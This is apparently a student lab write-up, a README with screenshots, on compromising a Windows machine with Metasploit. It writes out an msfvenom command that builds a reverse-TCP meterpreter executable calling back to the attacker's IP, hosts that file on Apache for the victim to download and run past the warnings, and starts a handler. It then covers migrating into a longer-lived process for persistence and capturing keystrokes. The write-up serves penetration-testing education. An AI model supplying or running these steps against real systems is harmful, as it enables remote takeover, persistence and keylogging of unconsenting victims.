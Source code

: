# Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:
PROGRAM: Find the attackers ip address using ifconfig
![Screenshot 2025-04-19 140534](https://github.com/user-attachments/assets/fc5d6892-8ae7-4444-98dd-35e8b8b6e698)
Create a malicious executable file fun.exe using msenom command msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe copy the fun.exe into the apache /var/www/html folder Start apache server sudo systemctl apache2 start Check the status of apache2 sudo apache2 status
## output:
![Screenshot 2025-04-19 142126](https://github.com/user-attachments/assets/3df01d98-0aab-49b5-b347-4107bd914b23)
Invoke msfconsole: Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole. Starting a command and control Server use multi/handler set PAYLOAD windows/meterpreter/reverse_tcp set LHOST 0.0.0.0 exploit

## output:
On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine: http://192.168.1.2/fun.exe The file "fun.exe" downloads.
Bypass any warning boxes, double-click the file, and allow it to run. On kali give the command exploit
To see a list of processes, at the meterpreter > prompt, execute this command: ps ⇒ can see the fun.exe process running with pid 1156

![431915762-729dc34c-b5b1-4cc6-8770-22d2331caede](https://github.com/user-attachments/assets/9d271d68-4a2f-453c-ac8b-8bca86c8b4bb)
The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost. To become more persistent, we'll migrate to a process that will last longer. Let's migrate to the winlogon process. At the meterpreter > prompt, execute this command:
![431915851-d93cac14-3fc3-444b-8159-bc2e0bc66d3a](https://github.com/user-attachments/assets/f2ca75f7-2887-4336-ae2e-12c6013105cb)
migrate -N explorer.exe at meterpreter > prompt, execute this command: netstat A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below. Notice the "PID/Program name" value for this connection, which is redacted
![431915958-2cfb6dd1-773b-4b42-9cd5-6cbb204a3145](https://github.com/user-attachments/assets/5648e16b-3be2-4722-806d-4ddfbe014106)
Post Exploitation: The target is now owned. Following are meterpreter commands for key capturing in the target machine keyscan_start Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.

keyscan_dump Shows the keystrokes captured so far 

![431916021-0810a377-a529-4f89-896e-af33fad9b043](https://github.com/user-attachments/assets/b5f08410-8ba5-4300-9044-0611f4724bbb)

## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
